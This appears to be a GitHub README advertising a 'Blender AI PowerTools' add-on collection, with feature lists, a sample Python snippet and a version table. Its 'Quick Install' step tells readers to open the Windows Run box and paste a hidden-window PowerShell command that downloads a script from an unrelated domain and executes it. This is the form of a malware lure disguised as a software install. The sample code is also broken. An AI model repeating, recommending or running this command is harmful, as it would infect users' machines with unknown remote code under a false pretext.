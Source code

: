 # 🎨 Blender AI PowerTools - Ultimate Add-on Collection

<details>
<summary><strong>🤖 AI & Automation Tools</strong></summary>

### ✅ LLM-Blender Integration
- Generate 3D models from text prompts
- Auto-rig characters using AI
- Smart material suggestions
- AI-driven animation assist
- Prompt-based lighting setup

### ✅ Procedural Workflows
- Batch process FBX/OBJ files
- Auto-LOD generator
- AI-based UV unwrapping
- Topology optimization
- Scene cleanup automation
</details>

<details>
<summary><strong>🎨 Enhanced Rendering & Materials</strong></summary>

### ✅ Color Blender Pro
- Advanced gradient & palette tools
- AI-based color harmony
- PBR material generator
- Texture synthesis
- LookDev presets

### ✅ Real-Time Processing
- AI denoising (OptiX/OpenCL)
- Automatic light optimization
- Style transfer filters
- Render pass composer
- Viewport FX
</details>

<details>
<summary><strong>🎮 Game Engine & Scripting</strong></summary>

### ✅ BGE Extensions
- Physics destruction system
- NPC behavior toolkit
- Real-time shaders
- UI system builder
- Save game manager

### ✅ Python PowerTools
- Batch object processing
- Smart constraint setup
- Asset management
- Custom operator creator
- API reference helper
</details>

<details>
<summary><strong>⚙️ Technical Features</strong></summary>

```python
# Example AI Material Generator
import blender_ai
ai_mat = blender_ai.MaterialGen()
ai_mat.generate(
    prompt="rusted iron with moss",
    roughness_variance=0.3,
    resolution=4K
)
```
</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

### 🛠 Supported Blender Versions

Version	Status

3.6+	✅ Full Support

3.0-3.5	⚠️ Partial

2.9x	❌ Not Tested

### 📜 License & Credits

MIT License (Open Source)

Uses OpenAI, Stable Diffusion APIs (requires keys)

Contributors welcome!
